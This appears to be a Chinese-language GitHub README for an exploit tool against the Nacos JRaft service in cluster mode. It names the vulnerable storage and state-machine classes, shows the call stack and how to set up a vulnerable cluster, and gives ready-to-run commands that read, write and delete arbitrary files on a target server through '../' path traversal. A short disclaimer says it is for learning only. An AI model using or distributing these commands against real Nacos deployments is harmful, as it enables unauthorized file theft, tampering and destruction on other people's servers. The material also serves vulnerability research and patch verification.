



#### Nacos JRaft 任意文件读写

一些操作信息记录

```java
com.alibaba.nacos.core.storage.kv.FileKvStorage实现了com.alibaba.nacos.core.storage.kv.KvStorage，这是任意文件读写位置

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#onApply任意文件读写调用点

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#group返回了naming_persistent_service表示调用的group

读文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#get

写文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#put
 
任意文件读取走的是com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#onRequest
ReadRequest和WriteRequest在com.alibaba.nacos.core.distributed.raft.NacosStateMachine#onApply中选择调用onApply还是onRequest
```

#### BasePersistentServiceProcessor的onApply调用堆栈

```java
TomcatEmbeddedWebappClassLoader@4a8355dd
    @com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor.onApply()
        at com.alibaba.nacos.core.distributed.raft.NacosStateMachine.onApply(NacosStateMachine.java:122)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doApplyTasks(FSMCallerImpl.java:597)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doCommitted(FSMCallerImpl.java:561)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.runApplyTask(FSMCallerImpl.java:467)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.access$100(FSMCallerImpl.java:73)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:150)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:142)
        at com.lmax.disruptor.BatchEventProcessor.run(BatchEventProcessor.java:137)
        at java.lang.Thread.run(Thread.java:748)
```

#### 注册group类

```java
com.alibaba.nacos.core.distributed.raft.JRaftServer#createMultiRaftGroup
```

#### 只有集群模式有漏洞

开启集群模式

使用MySQL数据库，cluster.conf配置文件中只写入本机IP地址：10.10.87.157:8848，然后启动：sh startup.sh

```
https://nacos.io/zh-cn/docs/cluster-mode-quick-start.html
```

#### 写入成功截图


#### 读取文件截图



#### 删除文件截图





注意：工具仅供学习使用，请勿滥用，否则后果自负！

**食用方式 **

写文件

```shell
java -jar NacosFileReadWrite.jar http://192.168.90.1:8848/ 7848 write ../../../../../../tmp/test.txt 12341123413
```

读文件

```shell
java -jar NacosFileReadWrite.jar http://192.168.90.1:8848/ 7848 read ../../../../../../tmp/test.txt
```

删文件

```shell
java -jar NacosFileReadWrite.jar http://192.168.90.1:8848/ 7848 delete ../../../../../../tmp/test.txt
```

[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)

[奇安信攻防社区-Nacos (butian.net)](https://forum.butian.net/article/570)
